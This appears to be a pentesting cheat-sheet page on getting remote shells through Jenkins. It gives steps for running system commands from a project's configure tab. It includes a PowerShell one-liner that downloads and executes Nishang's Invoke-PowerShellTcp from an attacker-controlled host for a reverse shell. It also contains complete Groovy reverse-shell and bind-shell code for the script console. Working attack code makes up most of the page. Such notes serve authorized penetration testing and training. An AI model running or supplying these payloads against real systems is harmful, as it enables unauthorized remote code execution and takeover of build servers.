 # Jenkins

### Through Existing Project

1. First get access to jenkins login panel and then login
2. Under Project Options, there is a configure tab which allows to execute system commands
3. You can put a reverse shell payload there
   * ```powershell
     powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
     ```
   * You first need to download the [Powershell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), and make it available for the server to download. You can do this by creating a http server with python: `python3 -m http.server`
4. After Re-Building the project, your malicious reverse shell code would be executed

***

### Reverse Shell through Groovy Scripting Console

```powershell
String host="localIP";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

***

### Bind Shell through Groovy Scripting Console

Bind shell is useful in case we have used pivoting technique and the target does not know how to communicate back to us

```powershell
int port=5555;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

